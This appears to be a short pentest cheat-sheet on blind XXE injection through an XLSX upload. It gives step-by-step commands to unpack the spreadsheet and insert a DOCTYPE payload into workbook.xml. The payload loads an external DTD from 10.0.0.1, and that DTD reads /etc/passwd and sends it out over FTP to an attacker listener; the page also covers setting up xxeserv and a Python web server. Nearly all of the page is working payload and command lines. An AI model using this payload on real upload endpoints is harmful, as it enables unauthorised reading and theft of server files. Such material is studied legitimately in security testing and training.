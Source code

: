 ```yaml
---
title: Blind XXE
description: XXE is a type of vulnerability that allows an attacker to inject and execute malicious XML code on a server that parses XML input, without directly receiving any feedback or response from the server.
tags:
    - XXE
    - Web
refs:
date: 2023-03-03
draft: false
---
```


## Inside XLSX File

An XLSX file is a Microsoft Excel spreadsheet.

### 1. Create a XLSX File

First we need to create a XLSX file using some software such as LibreOffice Calc.

### 2. Extract the XLSX File

```bash
7z -oXXE xxe.xlsx
cd XXE
```

We should get files such as **“.xml”**.

### 3. Add Blind XXE Payload in the XML File.

Insert the following payload into the **`xl/workbook.xml`**.  
Replace the **“10.0.0.1”** with your local ip address.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT cdl ANY ><!ENTITY % asd SYSTEM "http://10.0.0.1/xxe.dtd">%asd;%c;]>
<cdl>&rrr;</cdl>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships">
```

### 4. Rebuild the XLSX File.

```bash
cd XXE
7z u ../xxe.xlsx *
```

### 5. Create XXE inside a DTD File

Create **“xxe.dtd”**.  
Replace **“10.0.0.1”** with your local ip address.

```xml
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://10.0.0.1:2121/%d;'>">
```

### 5. Start a local server

Serve the DTD file using [xxeserv](https://github.com/staaldraad/xxeserv).

```bash
git clone https://github.com/staaldraad/xxeserv.git
cd xxeserv
go mod init xxeftp.go
go build
go run xxeftp.go -o files.log -p 2121 -w -wd public -wp 8000
```

In another terminal, start a web server in the directory where “xxe.dtd” located.

```bash
sudo python3 -m http.server 80
```

Now upload **“xxe.xlsx”** file in the website. We should get the content of the desired file.